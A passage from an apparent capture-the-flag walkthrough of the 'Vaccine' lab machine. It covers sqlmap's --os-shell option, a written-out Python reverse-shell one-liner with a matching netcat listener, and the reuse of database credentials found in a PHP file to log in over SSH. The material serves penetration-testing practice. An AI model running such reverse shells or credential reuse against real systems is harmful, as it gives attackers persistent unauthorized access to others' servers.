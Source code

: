 **Answer:** --os-shell

- [ ]  TASK 7 - What program can the postgres user run as root using sudo?

### BONUS SECTION

**Note**: Those steps are only for learning purpose, you can just jump to the end of bonus section if you don’t want to see the steps to get a better terminal or a more stable one.

It worked, and we now have a shell. However, to meet our requirements, we aim to upgrade our shell, as the current one is within sqlmap and doesn't serve our full needs. Let's attempt to establish a Python connection with Netcat. Execute the following command: `python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("<your_ip>",<port_you_chose>));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'` on the server. Beforehand, run `nc -lvnp <port_you_chose>` on your machine to open the connection.

![Untitled](Images/Untitled%2014.png)

![Untitled](Images/Untitled%2015.png)

Now that we have gained access to the server with our own terminal, we can close the `sqlmap` connection and start exploring for useful information. I discovered the `.php` file of the page, and inside it, I found credentials for PostgreSQL. This led me to consider trying these credentials for SSH access. SSH is a more stable option, and if we secure access through SSH, we can take a moment to relax. In a real-world environment, SSH is preferred for its reliability, as connections via sqlmap, meterpreter, netcat, or similar tools are more susceptible to instability.

![Untitled](Images/Untitled%2016.png)

I opened a new terminal and used `ssh postgres@vaccine.htb -p 22`. It worked, and now we can proceed to the next task, which involves finding the program running with root permissions.
